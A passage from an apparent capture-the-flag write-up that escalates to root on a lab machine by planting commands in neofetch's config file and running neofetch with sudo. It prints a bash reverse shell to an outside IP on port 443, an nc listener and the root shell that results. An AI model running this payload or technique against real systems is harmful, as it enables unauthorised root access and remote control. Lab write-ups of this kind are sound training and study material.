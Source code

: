 By placing a `bash` command in `/home/thomas/.config/neofetch/config.conf` and settings `XDG_CONFIG_HOME` to `/home/thomas/.config`, it is possible to execute the command as `root`.

```bash
thomas@meta:~$ echo id >> ~/.config/neofetch/config.conf
thomas@meta:~$ XDG_CONFIG_HOME=/home/thomas/.config sudo /usr/bin/neofetch
uid=0(root) gid=0(root) groups=0(root)
       _,met$$$$$gg.          root@meta
    ,g$$$$$$$$$$$$$$$P.       ---------
  ,g$$P"     """Y$$.".        OS: Debian GNU/Linux 10 (buster) x86_64
 ,$$P'              `$$$.     Host: VMware Virtual Platform None
',$$P       ,ggs.     `$$b:   Kernel: 4.19.0-17-amd64
`d$$'     ,$P"'   .    $$$    Uptime: 10 hours, 13 mins
 $$P      d$'     ,    $$P    Packages: 495 (dpkg)
 $$:      $$.   -    ,d$$'    Shell: bash 5.0.3
 $$;      Y$b._   _,d$P'      CPU: Intel Xeon Gold 5218 (2) @ 2.294GHz
 Y$$.    `.`"Y$$$$P"'         GPU: VMware SVGA II Adapter
 `$$b      "-.__              Memory: 168MiB / 1994MiB
  `Y$$
   `Y$$.
     `$$b.
       `Y$$b.
          `"Y$b._
              `"""
```

Append a reverse shell payload to this configuration file.

```bash
thomas@meta:~$ echo 'bash -i >& /dev/tcp/10.10.14.97/443 0>&1' >> ~/.config/neofetch/config.conf
```

Start a reverse shell listener.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
```

Execute the payload. Neofetch will hang.

```bash
thomas@meta:~$ XDG_CONFIG_HOME=/home/thomas/.config sudo /usr/bin/neofetch

```

Receive the reverse shell as `root` and grab the system flag from `/root/root.txt`.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.97] from (UNKNOWN) [10.129.146.212] 40682
root@meta:/home/thomas# id
id
uid=0(root) gid=0(root) groups=0(root)
root@meta:/home/thomas# ls -la /root/root.txt
ls -la /root/root.txt
-rwxr----- 1 root root 33 Mar  9 10:27 /root/root.txt
```

